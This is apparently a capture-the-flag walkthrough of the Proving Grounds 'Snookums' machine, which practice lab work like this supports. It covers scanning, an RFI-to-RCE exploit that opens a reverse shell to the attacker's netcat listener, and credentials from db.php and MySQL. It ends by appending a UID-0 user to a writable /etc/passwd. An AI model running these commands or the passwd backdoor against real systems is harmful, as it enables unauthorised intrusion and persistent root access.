


Snookums is an intermediate Proving Grounds box, also rated as intermediate by the community. After gaining an initial foothold, we discover credentials within the target's database and laterally escalate. For privilege escalation, the `/etc/passwd` file is writable which allows for direct user creation, and in this case we initialize a new `root` user.

`nmap` scan:

```
nmap <target ip> -sS -sC -sV -Pn -p- -T4 --min-rate 10000
```


Check out port 80:


We have a potential service name with `Simple PHP Photo Gallery`, could be important later. Let's `dirsearch` this `url`:

```
python3 dirsearch.py -u <target ip> -e html,txt,php -x 400,401,403,404
```


Nothing too interesting, and without credentials we cannot login. Enumerate `Simple PHP Photo Gallery v0.8`:


An interesting Github repo pops up with RFI that leads in RCE which is always great for hackers.


The version listed here is different from what's shown on port 80, but we'll try it anyway. Clone this repo and follow instructions.

Have a `nc` listener going, preferably on a port that's also open on the target so in this case we'll choose `33060`. Then, execute the exploit like this:

```
python3 exploit.py http://<target ip> <attacker ip> <attacker port>
```


We get a shell and can execute basic binaries which is great! Upgrade the initial shell with this:

```
python -c "import pty;pty.spawn('/bin/bash')"
```


A potential sensitive file is found under `/var/www/html`, `/db.php`:


```
root
MalapropDoffUtilize1337
```

From our `nmap` scan we also know that port `3306` is being used, which means that the target is running `mysql`. We can access `mysql` and try the credentials we just found:

```
mysql -u root -p
```


Enumerating the database leads us to user credentials:



The passwords all have `=` characters appended at the end which tells us that they are likely `base64` encoded. Let's start with `michael`:

```
echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
```


We decode the string until there aren't any `=` characters at the end, and now we're left with a human readable string:

```
HockSydneyCertify123
```

Can we login as `michael` with this password?

```
su michael
```


Nice, we can! Grab `local.txt` and let's move on to privilege escalation.


Transfer `linpeas.sh` to the target machine inside of `/tmp`:


A writable `/etc/passwd` is huge. That file is incredibly sensitive, and having permissions as a normal user to edit it could directly lead to `root` access. Google `writable /etc/passwd`:




Create a password following these instructions:

```
openssl passwd -1 -salt password
```


Now we can construct a new user with this password. Also refer to the anatomy of a `/etc/passwd` entry:


An ID of `0` indicates the `root`, so if we combine our generated password with IDs of `0` we will have effectively created a `root` user.

```
newuser:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/test:/root:/bin/bash
```

```
echo "newuser:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/test:/root:/bin/bash" >> /etc/passwd
```

```
su newuser
```


Rooted! :partying_face:
